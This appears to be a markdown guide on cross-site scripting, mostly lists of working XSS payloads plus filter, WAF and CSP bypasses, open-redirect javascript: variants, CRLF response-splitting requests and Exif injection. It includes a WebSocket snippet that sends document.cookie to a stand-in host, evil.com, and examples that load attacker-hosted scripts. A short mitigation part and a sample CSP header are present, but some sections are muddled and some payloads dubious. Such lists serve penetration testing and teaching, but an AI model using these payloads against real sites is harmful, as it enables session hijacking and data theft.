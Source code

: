 # Comprehensive Guide on Cross-Site Scripting (XSS) and Its Bypasses

## Table of Contents
1. [Introduction to XSS](#introduction-to-xss)
   1. [Types of XSS](#types-of-xss)
2. [Methodology for Detecting XSS](#methodology-for-detecting-xss)
   1. [Identify Injection Points](#identify-injection-points)
   2. [Determine Reflection Context](#determine-reflection-context)
3. [Contexts for XSS Injection](#contexts-for-xss-injection)
   1. [Raw HTML Context](#raw-html-context)
   2. [Inside HTML Tag Attributes](#inside-html-tag-attributes)
   3. [Inside JavaScript Code](#inside-javascript-code)
4. [Advanced Techniques and Bypasses](#advanced-techniques-and-bypasses)
   1. [Content Security Policy (CSP) Bypass](#content-security-policy-csp-bypass)
   2. [Polyglot XSS](#polyglot-xss)
   3. [Dangling Markup](#dangling-markup---html-scriptless-injection)
   4. [JSON-based XSS](#json-based-xss)
   5. [Bypassing Filters](#bypassing-filters)
   6. [Using HTML Entities](#using-html-entities)
   7. [Null Byte Injection](#null-byte-injection)
   8. [Case Variation](#case-variation)
   9. [Using Backticks in JavaScript](#using-backticks-in-javascript)
   10. [Chained XSS](#chained-xss)
5. [Exploiting DOM XSS](#exploiting-dom-xss)
   1. [Finding and Exploiting DOM XSS](#finding-and-exploiting-dom-xss)
6. [Debugging Client-Side JavaScript](#debugging-client-side-javascript)
   1. [Tools for Debugging](#tools-for-debugging)
7. [Mitigations and Best Practices](#mitigations-and-best-practices)
   1. [Input Validation and Sanitization](#input-validation-and-sanitization)
8. [Open Redirect Exploits](#open-redirect-exploits)
9. [How to Bypass Internal Filtering for XSS](#how-to-bypass-internal-filtering-for-xss)
10. [Understanding CSP](#understanding-csp)
    1. [Bypassing CSP](#bypassing-csp)
    2. [Exploiting Script Gadgets](#exploiting-script-gadgets)
11. [CRLF Injection to XSS](#crlf-injection-to-xss)
12. [Other Vulnerabilities Leading to XSS](#other-vulnerabilities-leading-to-xss)
    1. [PDF Generation Vulnerabilities](#pdf-generation-vulnerabilities)
    2. [XML Injection](#xml-injection)
    3. [XPath Injection Leading to XSS](#xpath-injection-leading-to-xss)
    4. [Unsafe Use of innerHTML](#unsafe-use-of-innerhtml)
    5. [Exploiting URL Fragments](#exploiting-url-fragments)
    6. [Misconfigured Content-Type Headers](#misconfigured-content-type-headers)
    7. [Injecting Malicious Frames](#injecting-malicious-frames)
    8. [Injecting Base Tags](#injecting-base-tags)
    9. [Exploiting SQL Errors](#exploiting-sql-errors)
    10. [Exif Data Injection to XSS](#exif-data-injection-to-xss)
    11. [IDN Homograph Attack](#idn-homograph-attack)
    12. [Other Advanced Techniques](#other-advanced-techniques)

## Introduction to XSS

XSS attacks enable attackers to inject malicious scripts into web pages. These scripts can execute in the context of a user's browser, allowing attackers to steal information, hijack sessions, or perform actions on behalf of the user.

### Types of XSS

- **Stored XSS**: The malicious script is permanently stored on the target server, such as in a database or comment field.
- **Reflected XSS**: The malicious script is reflected off a web server, typically via a URL query parameter.
- **DOM-Based XSS**: The vulnerability exists in the client-side code rather than the server-side code, and the attack payload is executed as a result of modifying the DOM environment.

## Methodology for Detecting XSS

### Identify Injection Points

Check if any value you control (parameters, path, headers, cookies) is reflected in the HTML or used by JavaScript code.

### Determine Reflection Context

- **Raw HTML**: Can you create new HTML tags or use attributes/events that support JavaScript?
- **Inside HTML Tag**: Can you exit to raw HTML or create events/attributes to execute JavaScript?
- **Inside JavaScript Code**: Can you escape the <script> tag or string context to execute arbitrary JavaScript?

## Contexts for XSS Injection

### Raw HTML Context

When your input is reflected in the raw HTML of a page, you can exploit it by injecting HTML tags that execute JavaScript. Common tags include:

```
<img src=x onerror=alert(1)>
<iframe src="javascript:alert(1)">
<svg onload=alert(1)>
```

### Inside HTML Tag Attributes

If your input is reflected within an attribute value, consider the following approaches:

Escape Attribute and Tag: 
```
"><img src=x onerror=alert(1)>
```

Event Handlers: If escaping the tag is not possible, use attributes like onfocus, onclick:
```
" autofocus onfocus=alert(1) x="
```

JavaScript Protocol: If within href, use javascript:
```
href="javascript:alert(1)"
```

### Inside JavaScript Code

If the input is reflected within JavaScript code, you need to break out of the string or the <script> tag to execute arbitrary code:

Escape String:
```
"; alert(1); "
```

Template Literals: If input is in a template literal:
```
`${alert(1)}`
```

## Advanced Techniques and Bypasses

### Content Security Policy (CSP) Bypass

CSP is a security measure that helps prevent XSS by specifying trusted content sources. However, it can be bypassed if not correctly configured.

### Polyglot XSS

Polyglot payloads can function in multiple contexts (HTML, JS, CSS) to bypass input filters.

Example Polyglot Payload:
```
"><svg onload=alert(1)><script>alert(1)</script>
```

### Dangling Markup - HTML Scriptless Injection

If you cannot create executing HTML tags, you might abuse dangling markup, which involves placing incomplete tags that break the current HTML context.

Example Dangling Markup:
```
<a href="/">Click here</a><b 
<script>alert(1)</script>
```

### JSON-based XSS

When web applications parse JSON data and directly insert it into the DOM without proper sanitization, it can lead to XSS.

Example JSON-based XSS:
```
{"name": "<img src=x onerror=alert(1)> "}
```

### Bypassing Filters

Using techniques like UTF-7 encoding, breaking out of existing tags, or leveraging uncommon payloads.

Example UTF-7 Encoding:
```
<iframe src="data:text/html;charset=utf-7,%2BADw-script%2BAD4-alert('XSS')%2BADw-/script%2BAD4-"></iframe>
```

### Using HTML Entities

Encoding the payload using HTML entities to bypass filters that block certain characters.

Example HTML Entities:
```
<img src=x onerror=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)>
```

### Null Byte Injection

Using null bytes to bypass filters or terminate strings early.

Example Null Byte Injection:
```
<img src="x" onerror="alert(1)";%00" src="y">
<img src="x" onerror="alert(1)%00" src="y">
<svg onload="alert(1)%00">
<iframe src="javascript:alert(1)%00"></iframe>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==%00"></iframe>
<a href="javascript:alert(1)%00">Click me</a>
<form action="javascript:alert(1)%00" method="post"><input type="submit"></form>
<img src="x" onerror="alert(1)";%00" src="y">
```

### Case Variation

Altering the case of HTML tags and attributes to bypass case-sensitive filters.

Obfuscation Techniques:
```
// Obfuscation with white spaces
<scr\0ipt>alert(1)</scr\0ipt>

// Breaking up keywords
<scri/*foo*/pt>alert(1)</scri/*foo*/pt>

// Using concatenation
<scr\+ipt>alert(1)</scr\+ipt>
```

Unexpected Input Variations:
```
// Inline event handlers
<svg><a href="javascript:alert(1)">click</a></svg>

// Injecting into attributes
<input type="text" value="``><svg onload=alert(1)>">
```

Example Case Variation:
```
<Svg OnloAd=alert(1)>
```

### Using Backticks in JavaScript

Bypassing filters by using backticks in JavaScript for template literals.

Example Using Backticks:
```
<script>let a = `alert(1)`</script>
```

### Chained XSS

Combining multiple injection points to achieve a successful XSS attack.

Example Chained XSS:
Injecting part of the payload in one input and another part in a different input to form a complete attack.

## Exploiting DOM XSS

DOM XSS occurs when a script on the page modifies the DOM based on user input, potentially leading to the execution of malicious scripts.

### Finding and Exploiting DOM XSS

- **Identify Sinks**: Look for functions or methods (e.g., innerHTML, document.write) that render user-controlled input.
- **Control Flow**: Understand how user input flows through the application to these sinks.
- **Payload Construction**: Craft payloads that exploit these sinks.

Example DOM XSS Payload:
```
<input oninput="document.getElementById('output').innerHTML = this.value">
<input value="<img src=x onerror=alert(1)>">
```

## Debugging Client-Side JavaScript

When working with complex XSS payloads, debugging client-side JavaScript can help understand how input is processed and reflected.

### Tools for Debugging

**Browser Developer Tools**: Use the console, breakpoints, and step through the JavaScript code to understand the application flow and find XSS injection points.

## Mitigations and Best Practices

### Input Validation and Sanitization

Ensure all user inputs are validated and sanitized before being processed or rendered.

Bypassing Filters with HTML Entities:
```
<svg onload=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)>
<img src=x onerror=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)>
```

Bypassing Filters with Null Bytes:
Null byte injection can terminate strings early or bypass certain filters by injecting null characters.
```
<img src="x" onerror="alert(1)";%00" src="y">
```

## Open Redirect Exploits

Basic Open Redirect to XSS:
```
javascript:alert(1)
```

Bypassing "javascript" Word Filter with CRLF:
```
java%0d%0ascript%0d%0a:alert(0)
```

Abusing Bad Subdomain Filter:
```
javascript://sub.domain.com/%0Aalert(1)
```

JavaScript with "://":
```
javascript://%250Aalert(1)
```

```
// Variation with query
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0
```

Other Variations:
```
%09Jav%09ascript:alert(document.domain)
javascript://%250Alert(document.location=document.cookie)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
/x:1/:///%01javascript:alert(document.cookie)/
";alert(0);//
```

Open Redirect by Uploading SVG Files:

Using SVG files to perform open redirects can be effective, especially when the application allows file uploads.

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
```

Client-Side Prototype Pollution to XSS:

Prototype pollution in JavaScript occurs when an attacker can modify the properties of Object.prototype. This can lead to XSS if these properties are used in sensitive operations.

```
// Prototype pollution payload
Object.prototype.polluted = 'polluted';
```

If the application uses a polluted object property in a dangerous way, this can lead to XSS:

```
var obj = {};
alert(obj.polluted); // Outputs: polluted
```

## How to Bypass Internal Filtering for XSS

Bypassing internal filtering mechanisms such as Web Application Firewalls (WAFs) and input sanitization requires a deep understanding of how these filters operate and the techniques that can be used to circumvent them. This guide provides an in-depth look at various methods to bypass internal filtering mechanisms for XSS attacks.

Internal filters and WAFs are designed to prevent malicious inputs by inspecting, sanitizing, or blocking suspicious content. Common filtering techniques include:

- **Blacklisting**: Blocking known malicious patterns or keywords.
- **Whitelisting**: Allowing only specific safe inputs.
- **Encoding**: Converting special characters to their HTML entities.
- **Normalization**: Simplifying input to a consistent form for easier inspection.

### Techniques for Bypassing Filters

#### Encoding and Decoding

Using various encoding methods can help bypass filters that don't decode inputs before inspection.

URL Encoding:
```
%3Cscript%3Ealert(1)%3C/script%3E
```

Double URL Encoding:
```
%253Cscript%253Ealert(1)%253C/script%253E
```

HTML Entities:
```
&#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;
```

Unicode Encoding:
```
\u003Cscript\u003Ealert(1)\u003C/script\u003E
```

#### Case Variation

Altering the case of HTML tags and attributes can bypass filters that are case-sensitive.

```
<ScRiPt>alert(1)</ScRiPt>
<Img sRc=x OnErRoR=alert(1)>
```

#### Comment Insertion

Inserting comments within the payload can break up patterns that the filter is looking for.

```
<scr<!-- -->ipt>alert(1)</scr<!-- -->ipt>
```

#### Using Null Bytes

Null byte injection can terminate strings early or bypass certain filters.

```
<img src="x" onerror="alert(1)%00" src="y">
<svg onload="alert(1)%00">
```

#### Breaking Up Keywords

```
<scri/*foo*/pt>alert(1)</scri/*foo*/pt>
```

#### Using Concatenation

```
<scr\+ipt>alert(1)</scr\+ipt>
```

#### Leveraging Browser Parsing Quirks

Different browsers may interpret malformed HTML or JavaScript in ways that can be exploited.

```
<scr<script>ipt>alert(1)</scr</script>ipt>
```

#### Incomplete Tags

```
<svg><a href="javascript:alert(1)">click</a></svg>
```

#### Inserting White Spaces and Line Breaks

Using white spaces and line breaks to bypass filters.

```
<scr\0ipt>alert(1)</scr\0ipt>
<svg
onload=alert(1)>
```

#### Combining Techniques

Combining multiple bypass techniques to create a payload that evades detection.

```
<scr\0ipt>alert(1)</scr\0ipt>
%3Cscript%3E%61lert(1)%3C/script%3E
<scr\+ipt>alert(1)%00</scr\+ipt>
```

### Real-World Examples

#### URL Encoding and Decoding

Using URL encoding to bypass filters that do not decode inputs before inspection.

Combining case variation and comment insertion to bypass case-sensitive filters.

```
<ScRiPt>alert(1)</ScRiPt>
<scr<!-- -->ipt>alert(1)</scr<!-- -->ipt>
```

#### Null Byte Injection

Using null bytes to terminate strings early or bypass certain filters.

```
<img src="x" onerror="alert(1)%00" src="y">
<svg onload="alert(1)%00">
```

#### Obfuscation and Concatenation

Using obfuscation and concatenation to avoid detection by filters.

```
<scri/*foo*/pt>alert(1)</scri/*foo*/pt>
<scr\+ipt>alert(1)</scr\+ipt>
```

## Understanding CSP

CSP works by allowing website owners to define a whitelist of trusted sources for content such as scripts, styles, images, and more. This is done through the Content-Security-Policy HTTP header. Key directives include:

- **default-src**: The default policy for loading content types.
- **script-src**: Defines trusted sources for JavaScript.
- **style-src**: Defines trusted sources for CSS.
- **img-src**: Defines trusted sources for images.

### Common CSP Misconfigurations

Misconfigured CSP policies are often the root cause of bypasses. Common issues include:

- Allowing unsafe-inline or unsafe-eval in script-src.
- Overly permissive whitelists.
- Failing to cover all possible directives, leaving certain content types unprotected.

## Bypassing CSP

JSONP (JSON with Padding) allows data to be fetched from a different domain using a <script> tag. If the JSONP endpoint is not properly secured, it can be exploited to execute arbitrary JavaScript.

Overly permissive CSP headers, such as those allowing unsafe-inline, can be exploited to run inline scripts directly.

```
<script nonce="random-nonce">alert(1)</script>
```

### Inline Script Allowances

When unsafe-inline is allowed, or if there is an oversight allowing inline scripts, attackers can inject their payload directly into inline scripts.

### Data URIs

Data URIs can sometimes be used to bypass CSP if they are allowed in the policy.

```
<img src="data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+">
```

## Exploiting Script Gadgets

Script gadgets are existing pieces of code on a website that can be exploited to perform unintended actions. This is particularly effective if unsafe-inline or unsafe-eval is used.

### Exploitation

1. Find an existing inline script that can be manipulated.
2. Inject code that modifies the behavior of the script.

### Content Injection via Whitelisted CDNs

If a Content Delivery Network (CDN) is whitelisted, and the attacker can upload content to that CDN, they can inject malicious scripts.

#### Exploitation

1. Upload a malicious script to cdn.example.com.
2. Include the script on the target site:

```
<script src="https://cdn.example.com/malicious.js"></script>
```

### Subresource Integrity (SRI) Bypass

SRI is used to ensure that resources hosted on third-party servers have not been tampered with. However, if SRI is not used properly, it can be bypassed.

#### Exploitation

1. Host a script on a trusted domain without SRI.
2. Include the script:

```
<script src="https://trusted.com/script.js"></script>
```

### Mutation XSS

Mutation XSS exploits the way browsers handle dynamic content changes. If CSP allows unsafe-inline, attackers can inject payloads that mutate the DOM in unexpected ways.

#### Exploitation:

```
<div><img src=x onerror="alert(1)"></div>
<script>
document.querySelector('div').innerHTML = '<img src=x onerror="alert(1)">';
</script>
```

### Using WebSockets

WebSockets can sometimes be used to exfiltrate data or execute JavaScript if allowed by CSP.

#### Exploitation:

```
var ws = new WebSocket("wss://evil.com/socket");
ws.onopen = function() {
  ws.send(document.cookie);
};
```

### CSP Nonce Reuse

If the CSP nonce is reused or predictable, it can be exploited to run malicious scripts.

#### Exploitation

1. Predict or capture the nonce value.
2. Use the nonce to execute a script:

```
<script nonce="captured-nonce">alert(1)</script>
```

### Example of a Secure CSP Header

Here's an example of a secure CSP header that mitigates most XSS attacks:

```
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-random-nonce'; style-src 'self' 'nonce-random-nonce'; object-src 'none'; frame-ancestors 'none'; base-uri 'self'; form-action 'self';
```

## CRLF Injection to XSS

CRLF injection (Carriage Return Line Feed) is a vulnerability that occurs when an attacker can inject CRLF characters into an application, typically resulting in the manipulation of HTTP headers or log files. This guide explores how CRLF injection can be exploited to perform XSS attacks.

### Understanding CRLF Injection

CRLF injection vulnerabilities occur when an application improperly handles user input, allowing the injection of CR (Carriage Return, \r, %0d) and LF (Line Feed, \n, %0a) characters. This can lead to:

- Manipulation of HTTP headers
- Injection into logs
- HTTP response splitting

### Basic CRLF Injection

CRLF injection can be used to inject new headers or modify the existing ones by breaking the intended structure of the HTTP response.

```
GET /vulnerable.php?param=value%0d%0aInjected-Header: injected_value HTTP/1.1
```

In this example, Injected-Header: injected_value would be treated as a new header.

### CRLF Injection to XSS

By leveraging CRLF injection, an attacker can inject malicious content, including scripts, into the HTTP response, potentially leading to XSS.

#### Injecting Scripts via HTTP Response Splitting

HTTP response splitting occurs when CRLF injection allows the creation of additional HTTP responses. This can be exploited to insert scripts directly into the response body.

Example:

Assume a vulnerable application includes user input directly in HTTP headers. An attacker can inject CRLF characters followed by a script tag.

```
GET /vulnerable.php?param=value%0d%0aContent-Length:%2023%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1
```

### URL Redirection and CRLF Injection

Another approach is to use CRLF injection to manipulate redirection headers and include XSS payloads.

Consider an application that redirects users based on input parameters. An attacker can inject CRLF characters to terminate the location header and include a script.

```
GET /redirect.php?url=http://example.com%0d%0aLocation:%20http://attacker.com/xss.html HTTP/1.1
```

### Log Injection

CRLF injection can also be used to manipulate server logs, potentially leading to XSS when logs are viewed in an insecure application.

An attacker injects a script into log entries:

```
GET /vulnerable.php?param=value%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1
```

### Advanced CRLF Injection Techniques

#### Double CRLF Injection

Using multiple CRLF sequences to break the HTTP response in more complex scenarios.

```
GET /vulnerable.php?param=value%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1
```

#### Hybrid Injection

Combining CRLF injection with other techniques such as parameter pollution or path traversal to enhance the attack.

```
GET /vulnerable.php?param1=value1&param2=value2%0d%0aSet-Cookie:%20session=malicious_value%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1
```

CRLF injection is a powerful technique that can lead to severe security vulnerabilities, including XSS. Understanding how to exploit and mitigate CRLF injection is crucial for securing web applications. By employing proper input validation, header handling, and security policies, developers can protect their applications from these attacks.

## Other Vulnerabilities Leading to XSS

### PDF Generation Vulnerabilities

#### Dynamic PDF Content Injection

When generating PDFs dynamically from user input, malicious content can lead to XSS.

```
// Vulnerable PDF generation code
$pdf->writeHTML($_POST['user_input']);
```

### XML Injection

XML data that includes user input can be manipulated to include malicious scripts.

```
<!-- Vulnerable XML data -->
<user>
  <name><?php echo $_POST['name']; ?></name>
</user>
```

### XPath Injection Leading to XSS

XPath injection vulnerabilities can be exploited to retrieve sensitive data and potentially inject XSS.

```
// Vulnerable XPath query
$query = "//user[name/text()='" . $_POST['name'] . "']";
$result = $xpath->query($query);
```

### Unsafe Use of innerHTML

Using innerHTML to insert user input into the DOM can lead to XSS.

```
document.getElementById('output').innerHTML = user_input;
```

### Exploiting URL Fragments

User-controlled fragments in URLs can be manipulated to inject scripts.

```
// Vulnerable code using location.hash
var fragment = location.hash.substring(1);
document.getElementById('output').innerHTML = fragment;
// If an attacker controls the URL
http://example.com#<img src=x onerror=alert(1)>
```

### Misconfigured Content-Type Headers

Misconfigured Content-Type headers can cause browsers to interpret data as executable scripts.

```
// Response with wrong Content-Type
Content-Type: text/html
{"user": "<script>alert(1)</script>"}
```

### Injecting Malicious Frames

Injecting malicious content into iframe sources can lead to XSS.

```
<iframe src="<?php echo $_GET['page']; ?>"></iframe>
// if an attacker submits
http://example.com/page.php?page=http://malicious.com
```

### Injecting Base Tags

If script tags and event handler attributes are blocked you can try to leverage base tags for XSS.

```
//lets say the site has a script tag like this
<script src="static/js/context.js"/>

//the attacker could inject
<base href="https://attacksite.com">

//and host their own static/js/context.js. note: the injection point must be above the targetted script
```

### Exploiting SQL Errors

If you see SQL errors, they are often not sanitized. This means they are worth checking for reflected XSS. This doesn't only apply to SQL specifically but it's the context I've seen this most.

### Exif Data Injection to XSS

Inject XSS Payloads into Exif data if the form is not sanitized properly.

Use a tool like ExifTool to embed a JavaScript payload in the EXIF metadata of an image.

```
exiftool -Title='<img src="x" onerror="alert(\'XSS via EXIF Metadata\')">' image.jpg
```

### IDN Homograph Attack

IDN allows the use of Unicode characters in domain names. Attackers can register domains that look visually similar to trusted domains by using characters from different languages that look alike. These domains can then host malicious content.

#### Detailed Example of IDN Homograph Attack

Domain Registration:

The attacker registers a domain that looks similar to a trusted domain. For example, they can replace the Latin letter "a" with the Cyrillic letter "а" (U+0430).

- Trusted domain: example.com
- Malicious domain: exаmple.com (notice the Cyrillic "а")

Punycode Representation:

Browsers convert Unicode domains to ASCII-compatible encoding called Punycode. This representation starts with xn--.

- example.com (trusted domain)
- exаmple.com (malicious domain) becomes xn--exmple-2of.com

Hosting Malicious Content:

The attacker hosts a page on xn--exmple-2of.com with malicious scripts designed to look like the legitimate site but contain XSS payloads.

Phishing Email or Link:

The attacker sends phishing emails or messages with links to the malicious domain, tricking users into clicking them.

### Other Advanced Techniques

#### Exploiting WebAssembly

WebAssembly (Wasm) code that includes user input can be manipulated to execute malicious scripts.

```
WebAssembly.instantiateStreaming(fetch('module.wasm'), { env: { userInput: user_input } });
```

#### JavaScript URL Injection

If an application uses URLs with the javascript: scheme in places where it accepts input, this can lead to XSS.

```
javascript:alert('XSS via JavaScript URL')
```

#### Referer Header Injection

If an application reflects the Referer header without sanitization, it can lead to XSS.

```
Referer: https://attacker-site.com/<img src=x onerror=alert('XSS via Referer Header')>
```

#### SVG Use Element Injection

The <use> element in SVG can reference external content. If an application accepts user input for SVG references and does not properly sanitize it, this can lead to XSS.

```
<use href="data:image/svg+xml,%3Csvg xmlns='http://www.w3.org/2000/svg'%3E%3Cimage href=x onerror=alert('XSS via SVG Use')%3E%3C/svg%3E">
```

#### Server-Sent Events (SSE) Injection

Server-Sent Events (SSE) allow servers to push updates to the client. If the data sent by the server is not sanitized, it can lead to XSS.

```
https://vulnerable-site.com/sse?data=<script>alert('XSS via SSE')</script>
```

#### EventSource API Injection

The EventSource API allows servers to push updates to the client. If the server sends unsanitized data, it can lead to XSS.

```
event: message\ndata: <script>alert('XSS via EventSource')</script>\n\n
```

#### CSS Content Property Injection

If an application allows user input in CSS properties without sanitization, it can lead to XSS.

Note: most browsers consider the content property text not HTML and this works under very certain conditions. Unsure whether the browser still accepts this however I have inserted here as a use case.

```
<style>
  .content::before { content: '<img src=x onerror=alert("XSS via CSS Content Property")>'; }
</style>
```

#### Drag and Drop File Path Injection

If a web application accepts dragged-and-dropped files and reflects their paths without sanitization, it can lead to XSS.

Find the Files here:
https://github.com/ShadowByte1/XSS-File-Path-Names

```
"><img src=x onerror=alert('XSS via File Path')>
```

#### Data Binding Libraries Injection

If an application uses data binding libraries (like AngularJS) and reflects user input without sanitization, it can lead to XSS.

```
<div ng-app ng-csp>
  <div ng-bind-html="'<img src=x onerror=alert(\'XSS via AngularJS\')>'"></div>
</div>
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.9/angular.min.js"></script>
```
